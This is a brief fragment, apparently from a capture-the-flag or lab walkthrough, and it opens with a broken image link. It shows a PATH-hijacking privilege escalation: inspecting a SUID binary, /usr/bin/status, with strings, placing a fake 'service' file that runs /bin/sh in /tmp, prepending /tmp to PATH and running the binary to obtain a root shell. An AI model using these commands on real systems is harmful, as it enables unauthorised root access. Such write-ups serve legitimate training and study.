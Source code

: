 strings /usr/bin/status | grep “service”
service ssh status

export PATH=/tmp/:$PATH
cd /tmp
echo “/bin/sh” \> service
/usr/bin/status

##root
